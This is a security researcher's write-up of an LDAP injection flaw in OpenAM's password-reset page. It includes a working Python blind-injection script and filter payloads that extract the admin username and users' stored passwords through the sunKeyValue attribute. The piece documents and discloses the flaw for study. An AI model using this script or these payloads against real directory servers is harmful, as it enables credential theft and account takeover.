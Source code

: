 # LDAP INJECTION IN OPENAM

**TL;DR**

In this article we explain how we were able to identify and exploit an LDAP injection vulnerability within OpenAM access management  server platform.

**About OpenAM**

OpenAM is an open-source access management, entitlements and federation server platform. It was sponsored by ForgeRock until 2016. Now it is supported by Open Identity Platform Community. OpenAM originated as OpenSSO, an access management system created by Sun Microsystems and now owned by Oracle Corporation. Wikipedia

**LDAP Injection**

LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it’s possible to modify LDAP statements through techniques similar to SQL Injection

**Vulnerability Details**

The vulnerability was found in the password reset feature that OpenAM provides. When a user tries to reset his password, he is asked to enter his username then the backend validates whether the user exists or not through an LDAP query before the password reset token is sent to the user’s email.  Setting the value of the username parameter PWResetUserValidation.tfUserAttr to * caused the server to respond with the following error Error: There is more than one user matching the specified value. Enter a different value, or contact your administrator for assistance. which indicates that it could be vulnerable to LDAP injection.

Setting the value of PWResetUserValidation.tfUserAttr parameter to **)|(objectclass=** returned the same error which means that the query returned more than a user. With that said, it’s possible to fetch any data from the directory service database using the following technique:

If the query returns more than one result => There error returned will be:  There is more than one user matching the specified value

If the query returns only one result => There are no questions configured for you or asks the user to answer questions

If the query doesn’t return anything => The password cannot be reset for this user

Thus, It’s possible to fetch the value of any property for the user object if we know the property name using **)|(propertyName=**a and if the server doesn’t return the errror: The password cannot be reset for this user then the value of the property has a character “a” and we can keep trying other characters until we get the full value.

Since the injection point is within the username property, we were able to extract usernames from the active directory service database using the following python script:

import requests

url = "https://[REDACTED]/amserver/ui/PWResetUserValidation"

charlist = "@_/:$%&^+,-=.1234567890abcdefghijklmnopqrstuvwxyza"

headers = {"Cookie":"[REDACTED]", User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0"

}

restart = True

res = ''

while restart:

restart = False

for char in charlist:

r = requests.post(url, headers=headers,data={"PWResetUserValidation.fldUserAttr":"uid",

"PWResetUserValidation.tfUserAttr":"%s%s*)(objectclass=*" % (res,char), "PWResetUserValidation.btnNext":"%C2%A0Next%C2%A0","jato.defaultCommand":"/btnNext","jato.pageSession":"1"}, verify = False)

print "%s%s %s" % (res,char, str(r.status_code))

# print r.content

if "cannot be reset for this user" not in r.content:

print "found %s%s" % (res,char)

res = "%s%s" % (res,char)

restart = True

break

And after running the script, it returned the username of the admin user: amadmin

After further testing, we decided to see if it would be possible to fetch passwords or password reset tokens.

First, we need to get the object class name, we were able to do this by setting the value of PWResetUserValidation.tfUserAttr parameter in the script to “**)(objectclass=**%s%s” % (char,res) which returned sunServiceComponent

![Untitled](images/forgerock_openam_ldapinj_0.png)

Now all we have to do is to look for the documentation of sunServiceComponent class at https://docs.oracle.com/cd/E19563-01/819-4437/6n6jckr11/index.html

One of the allowed attributes for this class is sunKeyValue which returns all attributes assigned to the user including the userPassword value.

Thus, we were able to fetch the user password by setting the value of PWResetUserValidation.tfUserAttr parameter in the script to “PWResetUserValidation.tfUserAttr”:”**)(sunKeyValue=**userPassword=%s%s*” % (res,char)

![Untitled](images/forgerock_openam_ldapinj_1.png)

That’s it for today, follow us and subscribe to our newsletter for more interesting writeups!

WRITTEN BY: MAHMOUD GAMAL